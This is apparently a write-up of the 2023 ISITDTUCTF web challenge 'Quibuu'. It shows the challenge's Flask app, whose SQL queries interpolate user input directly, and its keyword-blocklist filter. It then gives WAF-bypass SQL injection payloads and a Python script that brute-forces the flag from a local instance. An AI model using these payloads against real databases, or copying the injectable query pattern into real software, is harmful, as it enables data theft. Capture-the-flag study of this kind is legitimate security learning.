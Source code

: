 ```yaml
---
title: 2023 ISITDTUCTF - Quibuu
author: thanguyen165
date: 2023-10-15 00:00:00 +0700
categories: [Write-ups, 2023_ISITDTUCTF]
tags: [Web Exploitation, write-ups]
---
```


* 30 solves / 127 points
* Author: Discord _onsra_

## Description

> Hmmmmm, u are QuiBuu, right? xD

### Attached

[quibuu_dist.zip](./attached/quibuu_dist.zip)

```py
from flask import Flask, render_template, request
import random
import re
import urllib.parse
import sqlite3

app = Flask(__name__)


def waf_cuc_chill(ans):
    # idk, I thought too much of a good thing
    ans = urllib.parse.quote(ans)
    pattern = re.compile(r'(and|0r|substring|subsrt|if|case|cast|like|>|<|(?:/\%2A.*?\%2A/)|\\|~|\+|-|when|then|order|name|url|;|--|into|limit|update|delete|drop|join|version|not|hex|load_extension|round|random|lower|replace|likely|iif|abs|char|unhex|unicode|trim|offset|count|upper|sqlite_version\(\)|#|true|false|max|\^|length|all|values|0x.*?|left|right|mid|%09|%0A|%20|\t)', re.IGNORECASE)
    
    if pattern.search(ans):
        return True
    return False

@app.route("/", methods=["GET"])
def index():
    ran = random.randint(1, 11)
    id, ans= request.args.get("id", default=f"{ran}"), request.args.get("ans", default="")

    if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
        id = 1
    

    db = sqlite3.connect("hehe.db")
    cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
    img = cursor.fetchone()[0]

    if waf_cuc_chill(ans):
        return render_template("hack.html")
    
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2

    return render_template("index.html", id=id, img=img, ans=ans, check=check)

if __name__ == "__main__":
    app.run()
```
{: file="app.py" }

## Analyzation

Check around, the flag is in the database:
```
id = 1337, name=ISITDTU, URL = flag
```

So our target is sqli.

There are two sql queries:

```py
db = sqlite3.connect("hehe.db")
cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
img = cursor.fetchone()[0]
```

and

```py
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2
```

The first sql query is useless
```py
if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
    id = 1
```

```id``` will never reach ```1337```.

So the second query will be used, and to the ```ans``` variable. In this problem, error-based sqli works fine.

But we have to bypass ```waf``` first
```py
if waf_cuc_chill(ans):
    return render_template("hack.html")
```

These are some vulnerabilities of waf

- Two columns' name in the database are blocked, ```name``` and ```url```, but ```id```. And the table name ```QuiBuu``` is not blocked, too.

- Words of a query, like ```select```, ```from```, ```where```, etc. are not blocked

- It blocks all most white space, but ```\r```.

- The input string is not escaped.

- ```like``` is blocked, but ```glob``` can be used instead.

- ```substring()``` is blocked, but ```instr()```. That's the keypoint.

## Exploitation

Firstly, my idea was

```py
id = 10
ans = "Naruto' union select * from QuiBuu where url glob \'ISIT*"
ans = ans.replace(" ", "\r")
```

I tried to select ```url``` column with many ways. But it was not work.

**The right answer is union with another table.**

My final payload is
```py
id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{flag_guess}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")
```

- If ```flag_guess``` is correct, the right statement of ```OR``` will be ```1```, and the query will return all data in tables.

Another payload using ```GROUP_CONCAT()```.

```py
id = 10
ans = "a' OR (SELECT instr(( SELECT GROUP_CONCAT(\"pet\") FROM ( SELECT \"admin\", \"user\", \"pet\" UNION SELECT * FROM QuiBuu WHERE id=1337 ) ), \"{flag_guess}\"))/*"
ans = ans.replace(" ", "\r")
```

Now the third column is no longer ```url```, but ```pet```.

## Solution

```py
import requests
import string

ALPHABET = "_}" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL = "http://localhost:1301/?id={}&ans={}"

id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")

flag = "ISITDTU{"
while "}" not in flag:
    for c in ALPHABET:
        response = requests.get(URL.format(id, ans.format(flag + c)))
        if b"Haha QuiBuu" in response.content:
            flag = flag + c
            print(f"-----------flag_guess: {flag} ------------")
            break
print(URL.format(id, ans.format(flag + c)).encode())
```